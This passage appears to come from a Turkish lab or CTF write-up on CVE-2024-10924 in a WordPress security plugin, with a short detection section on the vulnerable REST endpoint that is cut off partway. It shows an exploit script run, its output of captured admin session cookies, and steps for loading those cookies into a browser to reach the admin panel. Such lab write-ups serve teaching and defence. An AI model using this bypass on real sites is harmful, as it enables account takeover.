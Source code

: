 <blockquote class="prompt-info"><p>Bu script oda çözümünü kolaylaştırmak için hazır olarak sistemde bulunmaktadır.</p></blockquote>

Şimdi betiğimizi çalıştırabiliriz:

```bash
ubuntu@b1lal:~/Desktop$ python3 exploit.py 1
Request successful!

Cookie 1:
Cookie Name: wordpress_logged_in_eb51341dc89ca85477118d98a618ef6f
Cookie Value: admin|1750771112|KXG6C7nHTefU3uN680rTzwqEm04v00m9CzSRSCgR4Jv|c5a1c7e66bff7e9ffe753a044eba668c66b3cafeedf1f61b3c674b20ea197bf8

Cookie 2:
Cookie Name: wordpress_eb51341dc89ca85477118d98a618ef6f
Cookie Value: admin|1750771112|KXG6C7nHTefU3uN680rTzwqEm04v00m9CzSRSCgR4Jv|7ddcdf60f2f42f452d72260ea8f0d91469da684d45c35ef9bf6bd3b16ab44556
```

Bu komut, **Wordpress** uç noktasına bir POST isteği göndererek `user_id` değeri **1** olan kullanıcının kimlik bilgilerini ele geçirir. Çıktıda, `wordpress_logged_in_eb51341dc89ca85477118d98a618ef6f` adlı çerezde admin kullanıcısının oturum açma bilgileri bulunmaktadır. Bu çerezi tarayıcınıza ekleyerek **admin** paneline erişebilirsiniz.

Çerezleri tarayıcınıza eklemek için, tarayıcınızın geliştirici araçlarını açın [F12] ve *"Storage"* sekmesine gidin. Buradan *"Cookies"* bölümüne tıklayın. Ardından, yukarıda elde ettiğiniz çerezleri manuel olarak ekleyebilirsiniz.

![Cookies](cookies.png)

Yukarıdaki iki çerezide ekledikten sonra sayfayı yenileyebiliriz.

![Admin Paneli](admin-page.png)

![Admin](admin.png)


## **Tespit Etme**

Yukarda, `CVE-2024-10924`'teki güvenlik açığından belirli bir uç noktaya basit bir API çağrısı yaparak yararlanılabileceğini temel olarak öğrenmiş olduk. Şimdi, birkaç tespit ve hafifletme tekniğininden de bahsederek bu makaleyide burada bitireceğiz. 

`CVE-2024-10924` zafiyetinin istismar edilme girişimlerini tespit etmek için API etkinliklerini, olay günlüklerini vb. kaydeden çeşitli loglara güvenebiliriz. Aşağıda potansiyel istismarları belirlemek için logların incelenmesine yönelik bazı yöntemler yer almaktadır: <br><br>

##### Web Loglarını API Çağrıları İçin Kontrol Etme:

Zafiyet içeren `/​?rest_route=/reallysimplessl/v1/two_fa/skip_onboarding` uç noktasına yapılan istekleri tespit etmeye odaklanın. Aşağıdaki gibi olağandışı kalıplara dikkat edin:

  - Uç noktaya yapılan tekrar eden **POST** istekleri,
